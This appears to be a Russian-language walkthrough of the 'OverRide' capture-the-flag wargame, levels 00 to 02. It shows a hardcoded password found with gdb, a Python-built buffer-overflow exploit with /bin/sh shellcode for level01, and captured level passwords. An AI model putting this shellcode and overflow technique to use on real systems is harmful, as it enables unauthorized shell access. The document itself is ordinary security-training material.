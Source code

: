 # override

LEVEL00
		
level00@OverRide:~$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:
		
Видим, что требуется пароль.
		
$ gdb level00
		
В main происходит сравнение строки, которая подается в качестве пароля с 0x149c, что соответствует  5276 в десятичной.
		
0x080484e7 <+83>:	cmp    $0x149c,%eax

Если подается что-то другое то команда jne перебрасывается мимо необходимой команды system.

0x080484ec <+88>:	 jne    0x804850d <main+121>

$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:5276

Authenticated!

$ cat /home/users/level01/.pass
uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

LEVEL01

 (cat /tmp/user ; cat) | ./level01

python -c "print 'dat_wil' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\n' + 'A'*80 + '\x08\x04\xa0\x47'[::-1]" > /tmp/test

level01@OverRide:~$ cat /tmp/test - | ./level01

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

LEVEL02
level02@OverRide:~$ ltrace ./level02
__libc_start_main(0x400814, 1, 0x7fffffffe6b8, 0x400ac0, 0x400b50 <unfinished ...>
fopen("/home/users/level03/.pass", "r") = 0
fwrite("ERROR: failed to open password f"..., 1, 36, 0x7ffff7dd4180ERROR: failed to open password file
) = 36
exit(1 <unfinished ...>
+++ exited (status 1) +++
